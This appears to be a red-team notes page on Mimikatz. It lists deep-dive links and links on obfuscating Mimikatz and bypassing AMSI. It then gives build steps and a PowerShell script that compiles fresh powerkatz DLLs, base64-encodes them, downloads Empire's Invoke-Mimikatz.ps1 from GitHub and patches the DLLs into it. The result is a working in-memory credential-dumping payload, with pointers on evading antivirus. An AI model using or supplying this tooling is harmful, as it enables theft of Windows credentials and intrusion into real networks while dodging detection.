 # Mimikatz

- [https://blog.xpnsec.com/exploring-mimikatz-part-1/](https://blog.xpnsec.com/exploring-mimikatz-part-1/)
- [https://blog.xpnsec.com/exploring-mimikatz-part-2/](https://blog.xpnsec.com/exploring-mimikatz-part-2/)
- [https://www.praetorian.com/blog/inside-mimikatz-part1/](https://www.praetorian.com/blog/inside-mimikatz-part1/)
- [https://www.praetorian.com/blog/inside-mimikatz-part2/](https://www.praetorian.com/blog/inside-mimikatz-part2/)
- [https://blog.3or.de/mimikatz-deep-dive-on-lsadumplsa-patch-and-inject.html](https://blog.3or.de/mimikatz-deep-dive-on-lsadumplsa-patch-and-inject.html)




## Obfuscate Mimikatz

* [https://s3cur3th1ssh1t.github.io/Bypass-AMSI-by-manual-modification-part-II/](https://s3cur3th1ssh1t.github.io/Bypass-AMSI-by-manual-modification-part-II/)
* [https://s3cur3th1ssh1t.github.io/Building-a-custom-Mimikatz-binary/](https://s3cur3th1ssh1t.github.io/Building-a-custom-Mimikatz-binary/)




## Invoke-Mimikatz

* [http://clymb3r.wordpress.com/2013/04/09/modifying-mimikatz-to-be-loaded-using-invoke-reflectivedllinjection-ps1/](http://clymb3r.wordpress.com/2013/04/09/modifying-mimikatz-to-be-loaded-using-invoke-reflectivedllinjection-ps1/)



### Update .ps1

* [http://www.harmj0y.net/blog/redteaming/mimikatz-and-dcsync-and-extrasids-oh-my/](http://www.harmj0y.net/blog/redteaming/mimikatz-and-dcsync-and-extrasids-oh-my/)

Update the [`Invoke-Mimikatz.ps1`](https://github.com/BC-SECURITY/Empire/blob/master/data/module_source/credentials/Invoke-Mimikatz.ps1) PowerShell script:

1. Grab source code zip from the latest (or any one you want) [release](https://github.com/gentilkiwi/mimikatz/releases) of Mimikatz.
2. Open the solution in Visual Studio.
3. Select the **Second_Release_PowerShell** target option and compile for  `Win32`.
4. Right-click on `mimikatz` solution > Properties > C/C++ > Set **Treat warnings as errors** to `No (/WX-)` > OK.
5. Compile for `x64`.
6. Transform the resulting `powerkatz` DLLs to base64 and replace the `$PEBytes32` and `$PEBytes64` vars at the bottom of `Invoke-Mimikatz.ps1` with a PowerShell script below.

{% code title="Update-InvokeMimikatz.ps1" %}
```powershell
$powerkatz32 = [System.IO.File]::ReadAllBytes("Win32\powerkatz.dll")
$powerkatz64 = [System.IO.File]::ReadAllBytes("x64\powerkatz.dll")
$encPowerkatz32 = [System.Convert]::ToBase64String($powerkatz32)
$encPowerkatz64 = [System.Convert]::ToBase64String($powerkatz64)
$invokeMimikatz = (New-Object Net.WebClient).DownloadString("https://github.com/BC-SECURITY/Empire/raw/master/empire/server/data/module_source/credentials/Invoke-Mimikatz.ps1") -replace '\$PEBytes32 = .*$', ('$PEBytes32 = ' + "'$encPowerkatz32'")
$invokeMimikatz -replace '\$PEBytes64 = .*$', ('$PEBytes64 = ' + "'$encPowerkatz64'") > Invoke-Mimikatz.ps1
```
{% endcode %}
